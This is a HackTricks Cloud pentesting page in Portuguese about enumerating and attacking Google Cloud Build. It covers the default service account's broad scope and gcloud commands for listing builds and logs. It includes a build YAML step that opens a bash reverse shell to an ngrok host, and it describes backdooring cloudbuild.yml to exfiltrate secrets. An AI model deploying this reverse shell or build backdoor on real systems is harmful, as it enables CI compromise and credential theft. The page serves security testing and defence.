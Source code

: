 # GCP - Enumeração do Cloud Build

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo do** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Informações Básicas

O Google Cloud Build é uma plataforma gerenciada de CI/CD que **automatiza processos de construção e liberação de software**, integrando-se com **repositórios de código-fonte** e suportando uma ampla gama de linguagens de programação. Ele **permite que desenvolvedores construam, testem e implantem código automaticamente**, oferecendo flexibilidade para personalizar etapas de construção e fluxos de trabalho.

Cada Gatilho do Cloud Build está **relacionado a um Repositório Cloud ou diretamente conectado a um repositório externo** (Github, Bitbucket ou Gitlab).

É possível configurar um Cloud Build para **exigir aprovações para execuções de construção** (desativado por padrão).

A **Conta de Serviço tem o escopo `cloud-platform`**, então ela pode **usar todos os privilégios.** Se **nenhuma Conta de Serviço for especificada** (como quando se faz um envio), a **Conta de Serviço padrão** `<proj-number>@cloudbuild.gserviceaccount.com` será **usada.**

{% hint style="success" %}
Não consegui encontrar nenhuma maneira de roubar o token do Github/Bitbucket daqui ou dos Repositórios Cloud porque quando o repositório é baixado, ele é acessado via uma URL [https://source.cloud.google.com/](https://source.cloud.google.com/) e o Github não é acessado pelo cliente.
{% endhint %}

### Armazenamento

Às vezes, o Cloud Build **gerará um novo armazenamento para guardar os arquivos para o gatilho**. Isso acontece, por exemplo, no exemplo que o GCP oferece com:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Um bucket do Storage chamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) é criado para armazenar um `.tgz` com os arquivos a serem utilizados.

### Obter shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeração

Você pode encontrar **informações sensíveis nas configurações de build e logs**.
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## Escalada de Privilégios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acesso Não Autenticado

### cloudbuild.yml

Se você comprometer o acesso de escrita em um repositório contendo um arquivo chamado **`cloudbuild.yml`**, você poderá **inserir um backdoor** neste arquivo, que especifica os **comandos que serão executados** dentro de um Cloud Build e exfiltrar os segredos, comprometer o que é feito e também comprometer a **conta de serviço do Cloud Build.**

{% hint style="info" %}
Note que o GCP tem a opção de permitir que administradores controlem a execução de sistemas de build de PRs externos via "Comment Control". Comment Control é um recurso onde colaboradores/proprietários do projeto **precisam comentar “/gcbrun” para acionar o build** contra o PR e usar esse recurso impede que qualquer pessoa na internet acione seus sistemas de build.
{% endhint %}

Para algumas informações relacionadas, você pode verificar a página sobre como atacar Github Actions (similar a esta):

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>Aprenda hacking em AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>
